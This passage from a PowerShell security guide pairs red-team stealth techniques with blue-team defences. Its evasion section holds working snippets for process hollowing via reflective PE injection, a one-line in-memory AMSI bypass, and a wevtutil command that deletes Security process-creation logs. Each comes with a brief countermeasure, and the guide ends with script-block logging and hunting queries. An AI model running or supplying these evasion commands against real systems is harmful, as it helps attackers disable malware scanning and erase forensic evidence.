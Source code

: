 
### **3. Stealth & Evasion Techniques**  
#### **(Think `rootkit`-level hiding)**  

#### **A. Process Hollowing**  
**Technique**: Spawn a legitimate process (e.g., `notepad.exe`) and hollow it to run malware.  
```powershell  
# Hollow notepad.exe (similar to Linux process hollowing)  
$proc = Start-Process -FilePath "notepad.exe" -PassThru -WindowStyle Hidden;  
Invoke-ReflectivePEInjection -PEBytes $shellcode -ProcessID $proc.Id  
```  
**Defense**:  
- Use **EDR** tools to detect code injection.  

---

#### **B. AMSI Bypass (Like bypassing `clamav`)**  
**Technique**: Patch AMSI in memory to disable scanning.  
```powershell  
# Kill AMSI (undetectable if done correctly)  
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiContext','NonPublic,Static').SetValue($null, $null)  
```  
**Defense**:  
- Enable **Tamper Protection** in Defender.  

---

#### **C. Log Tampering (Like clearing `/var/log`)**  
**Technique**: Clear specific event logs.  
```powershell  
# Delete security logs for EventID 4688 (process creation)  
wevtutil.exe cl Security /q:"*[System[(EventID=4688)]]"  
```  
**Defense**:  
- Forward logs to a SIEM (e.g., **Elasticsearch** or **Splunk**).  

---

### **4. Defensive PowerShell Mastery**  
#### **(For Blue Teams)**  

#### **A. Enable Deep Logging**  
```powershell  
# Log all PowerShell activity (like enabling `auditd`)  
Set-ItemProperty -Path "HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" -Name "EnableScriptBlockLogging" -Value 1  
```  

#### **B. Hunt for Malicious Activity**  
```powershell  
# Find encoded commands (common in attacks)  
Get-WinEvent -LogName "Microsoft-Windows-PowerShell/Operational" |  
Where-Object { $_.Message -like "*EncodedCommand*" }  
```  
